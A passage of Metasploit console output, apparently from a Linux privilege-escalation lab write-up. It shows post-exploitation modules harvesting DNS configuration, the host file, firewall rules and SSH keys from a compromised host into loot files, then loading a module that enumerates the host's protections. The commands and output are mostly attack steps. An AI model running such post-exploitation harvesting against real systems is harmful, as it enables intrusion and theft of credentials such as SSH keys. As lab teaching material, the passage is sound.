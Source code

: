 ```
[+] DNS config stored in /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enum.netwo_739761.txt
[-] Unable to get data for SSHD config
[+] Host file stored in /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enum.netwo_419887.txt
[+] SSH keys stored in /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enum.netwo_913508.txt
[-] Unable to get data for Active connections
[-] Unable to get data for Wireless information
[-] Unable to get data for Listening ports
[+] If-Up/If-Down stored in /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enum.netwo_777079.txt
[*] Post module execution completed
```

```
msf5 post(linux/gather/enum_network) > loot

Loot
====

host          service  type                name                  content     info             path
----          -------  ----                ----                  -------     ----             ----
192.111.31.3           linux.enum.network                        text/plain  Firewall config  /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enu
m.netwo_061534.txt
192.111.31.3           linux.enum.network                        text/plain  DNS config       /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enu
m.netwo_739761.txt
192.111.31.3           linux.enum.network                        text/plain  Host file        /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enu
m.netwo_419887.txt
192.111.31.3           linux.enum.network                        text/plain  SSH keys         /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enu
m.netwo_913508.txt
192.111.31.3           linux.enum.network                        text/plain  If-Up/If-Down    /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enu
m.netwo_777079.txt
```

```
msf5 post(linux/gather/enum_network) > cat /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enum.netwo_739761.txt
[*] exec: cat /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enum.netwo_739761.txt

search members.linode.com
nameserver 127.0.0.11
options edns0 trust-ad ndots:0
```

```
msf5 post(linux/gather/enum_network) > search enum_protections

Matching Modules
================

   #  Name                                Disclosure Date  Rank    Check  Description
   -  ----                                ---------------  ----    -----  -----------
   1  post/linux/gather/enum_protections                   normal  No     Linux Gather Protection Enumeration


msf5 post(linux/gather/enum_network) > use post/linux/gather/enum_protections
msf5 post(linux/gather/enum_protections) > show options

```